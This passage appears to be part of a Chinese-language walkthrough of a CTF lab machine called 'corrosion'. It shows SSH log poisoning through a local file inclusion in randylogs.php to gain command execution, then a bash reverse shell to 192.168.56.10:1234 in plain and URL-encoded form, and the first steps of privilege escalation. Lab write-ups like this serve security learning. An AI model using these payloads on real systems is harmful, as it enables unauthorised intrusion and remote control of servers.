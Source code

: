     网上查阅到信息：https://stackoverflow.com/questions/77948173/how-to-perform-ssh-log-poisoning-for-rce-with-lfi-using-php-system-call-in-usern
    
    好像是因为`ssh` 版本过于新导致的，然后我开了`Ubuntu18.0.4` 去进行登录，成功了
    
    ![image.png](image%2089.png)
    
6. 测试是否污染成功
    
    ```python
    andylogs.php?file=/var/log/auth.log&c=whoami
    ```
    
    ```python
    Nov 10 23:40:39 corrosion sshd[2517]: Connection closed by invalid user www-data
    ```
    
    爆出当前用户名`www-data` 污染成功
    
7. 进行反弹`shell` ，同时`kali`进行监听
    
    ```python
    bash -c 'bash -i >& /dev/tcp/192.168.56.10/1234 0>&1'
    ```
    
    进行URL编码
    
    ```python
    bash+-c+%27bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.56.10%2f1234+0%3e%261%27
    ```
    
    进行反弹shell
    
    ```python
    randylogs.php?file=/var/log/auth.log&c=bash+-c+'bash+-i+>%26+%2fdev%2ftcp%2f192.168.56.10%2f1234+0>%261'
    ```
    
    获得`shell`
    

## 提权

1. 查看权限
    
    ```python
    www-data@corrosion:/var/www/html/blog-post/archives$ whoami
    www-data
    www-data@corrosion:/var/www/html/blog-post/archives$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@corrosion:/var/www/html/blog-post/archives$ uname -a
    Linux corrosion 5.11.0-25-generic #27-Ubuntu SMP Fri Jul 9 23:06:29 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
    ```
    